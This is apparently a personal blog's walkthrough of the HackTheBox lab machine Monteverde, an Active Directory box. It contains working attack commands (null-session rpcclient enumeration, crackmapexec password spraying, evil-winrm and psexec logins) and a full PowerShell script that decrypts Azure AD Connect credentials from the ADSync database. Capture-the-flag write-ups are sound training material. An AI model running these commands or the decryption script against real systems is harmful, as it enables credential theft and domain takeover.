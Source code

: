 ```yaml
---
layout: single
title:  "HTB - Monteverde Writeup - 10.10.10.172"
date:   2020-06-18 16:49:23 +0100
categories: hackthebox
excerpt: My walkthrough / writeup of the HTB AD machine Monteverde.
---
```

![HTB](/images/monteverde/2020-06-19_14-43.png)

# HackTheBox - Monteverde - 10.10.10.100

Monteverde is a 30 point medium rated machine on hackthebox, that involves using rpcclient with null authentication to pillage domain usernames, then using hydra to use those usernames and usernames as passwords to find valid credentials. Once found we find the password for user `mhope` in a SMB share and we use his credentials to get a shell on the box. Once we are `mhope` we find he is a memeber of the Azure AD Admins groups so we can use a powershell script to decrypt the admin's credentials from the SQL database used by Azure AD Sync.

## 1. Recon 
To start this box off we will do an nmap scan of the target machine, 10.10.10.172  `nmap -sC -sV -oA nmap/monteverde 10.10.10.172` 
### Nmap Scan Results
{% highlight bash linenos %}
Nmap scan report for 10.10.10.172
Host is up (0.061s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-24 18:36:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/24%Time=5E2B36F6%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 9m22s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-01-24T18:38:12
|_  start_date: N/A
{% endhighlight %}

Some ports of note here are:
1. RPC - Maybe we can get null authentication 
2. SMB - Maybe some useful files
3. LDAP - ldapquery?

### RPC Enumeration
Firstly we will try to get a connection to rpc with null authentication, using rpcclient: 
`rpcclient -U "" 10.10.10.172` `enumdomusers`
![rpc](/images/monteverde/2020-06-19_14-34.png)

Bingo, now we have a list of users!

## 2. Finding some credentials
Now we have a list of usernames we can try to bruteforce login credentials, using those usernames as passwords, first save the usernames to a file like this:
![usersfile](/images/monteverde/2020-06-19_14-37.png)

We can then use crackmapexec to bruteforce smb logins, if you want to read more about cme then the link to the github page is [here](https://github.com/byt3bl33d3r/CrackMapExec).

If we pass the arguments -u for users file and -p for password file, we can bruteforce logins:

`crackmapexec smb 10.10.10.172 -u usersfile.txt -p passfile.txt`
![cme](/images/monteverde/2020-06-19_14-49.png)
Nice, we got a valid login using the credentials, `SABatchJobs:SABatchJobs`, we can now try to enumerate the smb shares.

## 3. Getting More Credentials

### SMB Enumeration
To list all the smb shares we will use smbclient, which is built into Kali.

`smbclient -U "SABatchJobs" -L \\10.10.10.172`
![shares](/images/monteverde/2020-06-19_14-53.png)

The one share that stands out is the users$, as it is not a default Windows share like SYSVOL or IPC$

Let's try and connect using our credentials
`smbclient -U "SABatchJobs" \\\\10.10.10.172\\users$`
![smb-share](/images/monteverde/2020-06-19_15-01.png)

Nice, we can see the files in the users$ share, lets download all the files and see if there is anything interesting
`prompt OFF`, `recurse ON`, `mget *`
![files](/images/monteverde/2020-06-19_15-04.png)

The only file in the share was an `azure.xml` file, let;s see what's inside
`cat azure.xml`
![epic](/images/monteverde/2020-06-19_15-06.png)

Bingo! We have the password for the user `mhope`.

### Getting User
Now that we have the password for the user `mhope` we can try to login over winrm, for this I will be using a tool called [evil-winrm](https://github.com/Hackplayers/evil-winrm).

`evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$`

![htb](/images/monteverde/user.gif)

## 4. Privesc to Domain Admin

Now that we have a shell we can do some enumeration, firstly, `whoami /all`
![whoami](/images/monteverde/2020-06-19_15-24.png)

We can see we are a part of the azure admins, this means that with the right commands or script we can dump the admin password from the mssql database that Azure AD Connect uses, there is a great article by XPNSec that explains this [here](https://blog.xpnsec.com/azuread-connect-for-redteam/). So if we use the powershell script from the blog but with the connection string changed to work with this DB we should be good. Allternativly I will use a tool made by [fox-it on github](https://github.com/fox-it/adconnectdump), to decrypt the password as I could not get the powershell script to work for me. 

Here is the script the exe is based on:

{% highlight powershell linenos %}
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
{% endhighlight %}

Now if we save the exe and dll from the fox-it github to our local machine, we can upload it using evil-winrm to the box

![upload](/images/monteverde/2020-06-19_15-46.png)

Now if we naviagate to: `C:\Program Files\Microsoft Azure AD Sync\Bin` and run `\Users\mhope\Documents\AdDecrypt.exe -FullSQL` we get the admin credentials

![creds](/images/monteverde/2020-06-19_15-51.png)

Now we can just use these creds to psexec into the box and grab the root flag

## Pwned

`psexec.py megabank/Administrator:"d0m@in4dminyeah!"@10.10.10.172`

![root](/images/monteverde/root.gif)

If you enjoyed my write up or found it useful please check out my htb profile linked below and give a +rep

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)

